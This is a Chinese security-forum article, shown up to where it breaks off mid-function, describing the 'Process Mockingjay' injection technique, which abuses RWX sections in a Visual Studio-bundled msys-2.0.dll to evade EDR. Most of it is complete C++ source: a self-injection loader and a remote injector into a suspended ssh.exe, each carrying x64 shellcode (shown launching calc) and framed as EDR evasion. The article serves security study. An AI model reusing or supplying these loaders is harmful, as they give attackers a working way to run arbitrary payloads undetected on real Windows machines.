






# Process Mockingjay:利用用户空间RWX段实现代码执行的注入技术-先知社区

> **来源**: https://xz.aliyun.com/news/18269  
> **文章ID**: 18269

---

## 1. 技术概述

Process Mockingjay是安全研究团队Security Joes开发的一种新型进程注入技术，该技术利用Windows系统中已存在的具有默认RWX(Read-Write-Execute)权限的DLL文件段来执行恶意代码，从而规避现代端点检测与响应(EDR)解决方案的检测。这种技术之所以被命名为"Mockingjay"(模仿鸟)，是因为它比其他注入技术更加"平滑"，需要更少的步骤即可实现，同时能够在不分配内存空间、不设置权限、甚至不启动线程的情况下执行注入操作。  


## 2. 技术演进

### 2.1 传统注入技术

传统进程注入依赖VirtualAllocEx+WriteProcessMemory+CreateRemoteThread的"三步曲"，这些API调用被EDR系统标记为高危行为，目前的EDR产品大概率都能捕获此类操作

### 2.2 Mockingjay的技术

传统的进程注入技术通常需要执行一系列Windows API调用，这些API调用已被EDR系统广泛监控。相比之下，Mockingjay技术通过利用已有的具备RWX权限的DLL文件段，成功规避了大部分监控点  
  
传统进程注入vs Process Mockingjay技术对比  
在传统进程注入技术中，攻击者需要使用`VirtualAllocEx`分配内存，`WriteProcessMemory`写入恶意代码，`VirtualProtectEx`设置执行权限，以及`CreateRemoteThread`创建线程来执行注入的代码。这些API调用被现代EDR解决方案高度监控。而Mockingjay技术则通过找到并利用预先存在的RWX段，只需最少的API调用即可完成注入过程，大大降低了被检测的风险。  
所以Security Joes团队发现Visual Studio 2022自带的msys-2.0.dll存在天然RWX段，所谓RWX为了将代码注入具有读-写-执行 （RWX） 权限的预先存在的内存部分，我们可以看到其.text段具备反常权限配置：  
  
可以通过该脚本查看易受攻击的DLL  
`https://github.com/caueb/Mockingjay`  


## 3.技术原理详解

Mockingjay技术的核心在于利用Windows系统中某些DLL文件本身就存在默认配置为RWX权限的内存段，就如同上面所说的msys-2.0.dll  
  
Process Mockingjay技术架构和msys-2.0.dll内存布局  
这种技术的独特之处在于它不需要执行传统注入技术所需的三个基本步骤：分配内存、设置内存权限和创建执行线程。相反，它直接利用已存在的RWX段，通过写入恶意代码并让目标进程自然执行该段中的代码来实现注入目的

## 4.Process Mockingjay三重攻击路径

### 4.1 概述

Process Mockingjay的"三重攻击"指的是该技术的三种不同实现路径，每种路径都有其独特的应用场景和技术特点。这三种攻击路径分别是：**自注入模式**、**远程寄生注入**和**系统调用嫁接**  


### 4.2 攻击路径一：自注入模式（Self-Injection）

**技术原理**  
自注入模式是最直接的攻击方式，攻击程序在自身进程空间内加载目标DLL并执行恶意代码。这种方式完全避免了跨进程操作，从而规避了大部分EDR监控。  
**实现步骤**

```
#include <windows.h>
#include <psapi.h>
#include <iostream>

#pragma comment(lib, "psapi.lib")

// 弹出计算器的shellcode (x64)
unsigned char calcShellcode[] = {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x00
};

bool SelfInjectionAttack() {
    std::wcout << L"[*] 开始自注入模式攻击..." << std::endl;

    // 1. 加载msys-2.0.dll
    const wchar_t* dllPath = L"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll";
    HMODULE hDll = LoadLibraryW(dllPath);

    if (!hDll) {
        std::wcout << L"[-] 加载DLL失败，错误码: " << GetLastError() << std::endl;
        return false;
    }
    std::wcout << L"[+] 成功加载msys-2.0.dll" << std::endl;

    // 2. 解析PE结构定位RWX段
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hDll;
    PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hDll + dosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);

    LPVOID rwxAddress = nullptr;
    for (WORD i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
        if ((section[i].Characteristics & 0xE0000020) == 0xE0000020) {
            rwxAddress = (BYTE*)hDll + section[i].VirtualAddress;
            std::wcout << L"[+] 找到RWX段，地址: 0x" << std::hex << (uintptr_t)rwxAddress << std::endl;
            break;
        }
    }

    if (!rwxAddress) {
        std::wcout << L"[-] 未找到RWX段" << std::endl;
        return false;
    }

    // 3. 直接写入shellcode
    memcpy(rwxAddress, calcShellcode, sizeof(calcShellcode));
    std::wcout << L"[+] Shellcode已写入RWX段" << std::endl;

    // 4. 直接执行
    std::wcout << L"[+] 执行Shellcode，计算器即将弹出..." << std::endl;
    ((void(*)())rwxAddress)();
    
    return true;
}

int main() {
    SetConsoleOutputCP(CP_UTF8);
    std::wcout << L"=== Process Mockingjay 自注入模式演示 ===" << std::endl;
    
    if (SelfInjectionAttack()) {
        std::wcout << L"[+] 自注入攻击成功完成!" << std::endl;
    } else {
        std::wcout << L"[-] 自注入攻击失败!" << std::endl;
    }
    
    system("pause");
    return 0;
}


```

**技术特点**  
隐蔽性极高：所有操作在当前进程内完成，无跨进程API调用  
执行效率最高：步骤最少，成功率最高  
检测难度最大：难以被传统行为分析检测  
**应用场景**  
主要用于实现EDR解钩（unhooking），通过Hell's Gate技术加载干净的NTDLL副本，在RWX段中构建系统调用存根，绕过用户态钩子。

### 4.3 攻击路径二：远程寄生注入（Remote Parasitic Injection）

**技术原理**  
远程寄生注入利用ssh.exe等系统进程自动加载msys-2.0.dll的特性，通过创建目标进程并向其RWX段写入恶意代码实现注入。该方法巧妙地利用了目标进程的自然执行流程  
**实现步骤**

```
#include <windows.h>
#include <psapi.h>
#include <iostream>
#include <vector>
#include <string>

#pragma comment(lib, "psapi.lib")

// RWX段信息结构体
struct RWXSectionInfo {
DWORD_PTR offset;      // 相对偏移
DWORD size;            // 段大小
std::string name;      // 段名称
bool found;            // 是否找到
};

// PE文件分析器
class PEAnalyzer {
public:
// 从文件分析RWX段
static RWXSectionInfo FindRWXFromFile(const std::wstring& filePath) {
    RWXSectionInfo info = { 0, 0, "", false };

    std::wcout << L"[*] 正在分析文件: " << filePath << std::endl;

    // 1. 打开文件
    HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_READ,
    FILE_SHARE_READ, NULL, OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::wcout << L"[-] 无法打开文件！" << std::endl;
        return info;
    }

    // 2. 创建文件映射
    HANDLE hMapping = CreateFileMappingW(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
    if (!hMapping) {
        std::wcout << L"[-] 创建文件映射失败！" << std::endl;
        CloseHandle(hFile);
        return info;
    }

    // 3. 映射到内存
    LPVOID pFile = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
    if (!pFile) {
        std::wcout << L"[-] 映射文件到内存失败！" << std::endl;
        CloseHandle(hMapping);
        CloseHandle(hFile);
        return info;
    }

    // 4. 解析PE结构
    info = ParsePEStructure(pFile);

    // 5. 清理资源
    UnmapViewOfFile(pFile);
    CloseHandle(hMapping);
    CloseHandle(hFile);

    return info;
}

private:
static RWXSectionInfo ParsePEStructure(LPVOID pFileData) {
    RWXSectionInfo info = { 0, 0, "", false };

    // 1. 检查DOS头
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)pFileData;
    if (dosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        std::wcout << L"[-] 不是有效的PE文件（DOS头无效）" << std::endl;
        return info;
    }

    std::wcout << L"[+] DOS头检查通过" << std::endl;

    // 2. 获取NT头
    PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)
    ((PBYTE)pFileData + dosHeader->e_lfanew);
    if (ntHeaders->Signature != IMAGE_NT_SIGNATURE) {
        std::wcout << L"[-] NT头签名无效" << std::endl;
        return info;
    }

    std::wcout << L"[+] NT头检查通过" << std::endl;

    // 3. 遍历所有段
    WORD numberOfSections = ntHeaders->FileHeader.NumberOfSections;
    PIMAGE_SECTION_HEADER sectionHeader = IMAGE_FIRST_SECTION(ntHeaders);

    std::wcout << L"[+] 开始分析 " << numberOfSections << L" 个段：" << std::endl;

    for (WORD i = 0; i < numberOfSections; i++) {
        DWORD characteristics = sectionHeader[i].Characteristics;

        // 检查段权限
        bool isReadable = (characteristics & IMAGE_SCN_MEM_READ) != 0;
        bool isWritable = (characteristics & IMAGE_SCN_MEM_WRITE) != 0;
        bool isExecutable = (characteristics & IMAGE_SCN_MEM_EXECUTE) != 0;

            // 获取段名称（最多8个字符）
            char sectionName[9] = { 0 };
            memcpy(sectionName, sectionHeader[i].Name, 8);

            // 打印每个段的信息
            std::wcout << L"[" << i << L"] 段名: "
                << std::wstring(sectionName, sectionName + strlen(sectionName)).c_str()
                    << L", 权限: ";
            if (isReadable) std::wcout << L"R";
            if (isWritable) std::wcout << L"W";
            if (isExecutable) std::wcout << L"X";
            std::wcout << L" (0x" << std::hex << characteristics << L")" << std::endl;

            // 检查是否是RWX段
            if (isReadable && isWritable && isExecutable) {
                info.offset = sectionHeader[i].VirtualAddress;
                info.size = sectionHeader[i].Misc.VirtualSize;
                info.name = std::string(sectionName);
                info.found = true;

                std::wcout << L"[+] 🎉 找到RWX段！" << std::endl;
                std::wcout << L"    段名: " << info.name.c_str() << std::endl;
                std::wcout << L"    偏移: 0x" << std::hex << info.offset << std::endl;
                std::wcout << L"    大小: 0x" << std::hex << info.size << L" 字节 ("
                    << std::dec << info.size << L" 字节)" << std::endl;
                break;
            }
        }

        if (!info.found) {
            std::wcout << L"[-] 未找到RWX段" << std::endl;
        }

        return info;
    }
};

// 进程助手类
class ProcessHelper {
    public:
    // 在指定进程中查找模块
    static HMODULE FindModuleInProcess(DWORD processId, const std::wstring& moduleName) {
        std::wcout << L"[*] 在进程 " << processId << L" 中查找模块: "
            << moduleName << std::endl;

        // 1. 打开进程
        HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ,
                                      FALSE, processId);
        if (!hProcess) {
            std::wcout << L"[-] 无法打开进程，错误码: " << GetLastError() << std::endl;
            return nullptr;
        }

        // 2. 枚举模块
        HMODULE hModules[1024];
        DWORD cbNeeded;
        HMODULE targetModule = nullptr;

        if (EnumProcessModules(hProcess, hModules, sizeof(hModules), &cbNeeded)) {
            DWORD moduleCount = cbNeeded / sizeof(HMODULE);
            std::wcout << L"[+] 找到 " << moduleCount << L" 个模块" << std::endl;

            for (DWORD i = 0; i < moduleCount; i++) {
                WCHAR szModuleName[MAX_PATH];
                if (GetModuleFileNameExW(hProcess, hModules[i], szModuleName,
                                         sizeof(szModuleName) / sizeof(WCHAR))) {
                    std::wstring fullPath(szModuleName);

                    // 检查是否包含目标模块名
                    if (fullPath.find(moduleName) != std::wstring::npos) {
                        MODULEINFO moduleInfo;
                        if (GetModuleInformation(hProcess, hModules[i],
                                                 &moduleInfo, sizeof(moduleInfo))) {
                            targetModule = hModules[i];
                            std::wcout << L"[+] 找到目标模块！" << std::endl;
                            std::wcout << L"    路径: " << szModuleName << std::endl;
                            std::wcout << L"    基址: 0x" << std::hex
                                << (uintptr_t)moduleInfo.lpBaseOfDll << std::endl;
                            std::wcout << L"    大小: 0x" << std::hex
                                << moduleInfo.SizeOfImage << std::endl;
                            break;
                        }
                    }
                }
            }
        }
        else {
            std::wcout << L"[-] 枚举进程模块失败，错误码: " << GetLastError() << std::endl;
        }

        CloseHandle(hProcess);
        return targetModule;
    }
};

// Mockingjay注入器主类
class MockingjayInjector {
    private:
    PROCESS_INFORMATION pi;        // 进程信息
    HANDLE hTargetProcess;         // 目标进程句柄
    LPVOID rwxSectionAddress;      // RWX段实际地址
    RWXSectionInfo rwxInfo;        // RWX段信息

    // 弹出计算器的shellcode（x64）
    unsigned char calcShellcode[272] = {
        0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
        0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
        0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
        0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
        0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
        0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
        0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
        0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
        0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
        0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
        0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
        0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
        0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
        0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
        0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
        0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
        0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
        0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
        0x63,0x00
        };

    public:
    MockingjayInjector() : hTargetProcess(nullptr), rwxSectionAddress(nullptr) {
        ZeroMemory(&pi, sizeof(pi));
    }

    // 步骤1：分析DLL文件，获取RWX段信息
    bool AnalyzeDLL() {
        std::wstring dllPath = L"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll";

        std::wcout << L"
=== 步骤1：分析DLL文件 ===" << std::endl;
        rwxInfo = PEAnalyzer::FindRWXFromFile(dllPath);

        if (!rwxInfo.found) {
            std::wcout << L"[-] 未找到RWX段，注入失败！" << std::endl;
            return false;
        }

        std::wcout << L"[+]  DLL分析完成！" << std::endl;
        return true;
    }

    // 步骤2：创建目标进程
    bool CreateTargetProcess() {
        std::wcout << L"
=== 步骤2：创建目标进程 ===" << std::endl;

        std::wstring command = L"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\ssh.exe";
        std::wstring args = L"ssh.exe dummy@example.com";

        STARTUPINFOW si = { 0 };
        si.cb = sizeof(si);

        std::wcout << L"[*] 启动ssh.exe进程..." << std::endl;

        BOOL success = CreateProcessW(
            command.c_str(),
            const_cast<LPWSTR>(args.c_str()),
            nullptr, nullptr, FALSE,
            CREATE_SUSPENDED,  // 暂停状态创建，便于注入
            nullptr, nullptr,
            &si, &pi
        );

        if (!success) {
            std::wcout << L"[-] 创建进程失败，错误码: " << GetLastError() << std::endl;
            std::wcout << L"    请确保已安装Visual Studio 2022 Community" << std::endl;
            return false;
        }

        std::wcout << L"[+]  目标进程创建成功！" << std::endl;
        std::wcout << L"    进程ID: " << pi.dwProcessId << std::endl;
        return true;
    }

    // 步骤3：打开目标进程
    bool OpenTargetProcess() {
        std::wcout << L"
=== 步骤3：获取进程访问权限 ===" << std::endl;

        hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pi.dwProcessId);
        if (!hTargetProcess) {
            std::wcout << L"[-] 打开目标进程失败，错误码: " << GetLastError() << std::endl;
            std::wcout << L"    请确保以管理员权限运行程序" << std::endl;
            return false;
        }

        std::wcout << L"[+]  成功获取进程访问权限！" << std::endl;
        return true;
    }

    // 步骤4：在目标进程中定位RWX段
    bool LocateRWXSection() {
        std::wcout << L"
=== 步骤4：定位目标RWX段 ===" << std::endl;

        // 恢复进程以加载DLL
        std::wcout << L"[*] 恢复进程以加载必要的DLL..." << std::endl;
        ResumeThread(pi.hThread);
        Sleep(2000);  // 等待DLL加载
        SuspendThread(pi.hThread);

        // 在目标进程中查找msys-2.0.dll
        HMODULE hModule = ProcessHelper::FindModuleInProcess(pi.dwProcessId, L"msys-2.0.dll");
        if (!hModule) {
            std::wcout << L"[-] 在目标进程中未找到msys-2.0.dll" << std::endl;
            return false;
        }

        // 计算RWX段的实际地址
        rwxSectionAddress = (LPVOID)((uintptr_t)hModule + rwxInfo.offset);
        std::wcout << L"[+]  RWX段定位成功！" << std::endl;
        std::wcout << L"    模块基址: 0x" << std::hex << (uintptr_t)hModule << std::endl;
        std::wcout << L"    RWX偏移: 0x" << std::hex << rwxInfo.offset << std::endl;
        std::wcout << L"    实际地址: 0x" << std::hex << (uintptr_t)rwxSectionAddress << std::endl;

        return true;
    }

    // 步骤5：注入shellcode
    bool InjectShellcode() {
        std::wcout << L"
=== 步骤5：注入shellcode ===" << std::endl;

        if (!rwxSectionAddress) {
            std::wcout << L"[-] RWX段地址无效" << std::endl;
            return false;
        }

        // 检查shellcode大小
        if (sizeof(calcShellcode) > rwxInfo.size) {
            std::wcout << L"[-] Shellcode太大，超出RWX段容量" << std::endl;
            std::wcout << L"    Shellcode大小: " << sizeof(calcShellcode)
                << L" 字节" << std::endl;
            std::wcout << L"    RWX段大小: " << rwxInfo.size << L" 字节" << std::endl;
            return false;
        }

        // 写入shellcode到RWX段
        SIZE_T bytesWritten = 0;
        BOOL result = WriteProcessMemory(
            hTargetProcess,
            rwxSectionAddress,
            calcShellcode,
            sizeof(calcShellcode),
            &bytesWritten
        );

        if (!result) {
            std::wcout << L"[-] 写入内存失败，错误码: " << GetLastError() << std::endl;
            return false;
        }

        std::wcout << L"[+]  Shellcode注入成功！" << std::endl;
        std::wcout << L"    写入字节数: " << std::dec << bytesWritten << std::endl;
        return true;
    }

    // 步骤6：触发执行
    bool TriggerExecution() {
        std::wcout << L"
=== 步骤6：触发shellcode执行 ===" << std::endl;

        // 创建远程线程执行注入的shellcode
        HANDLE hThread = CreateRemoteThread(
            hTargetProcess, nullptr, 0,
            (LPTHREAD_START_ROUTINE)rwxSectionAddress,
            nullptr, 0, nullptr
        );

        if (!hThread) {
            std::wcout << L"[-] 创建远程线程失败，错误码: " << GetLastError() << std::endl;
            return false;
        }

        std::wcout << L"[+]  远程线程创建成功！" << std::endl;
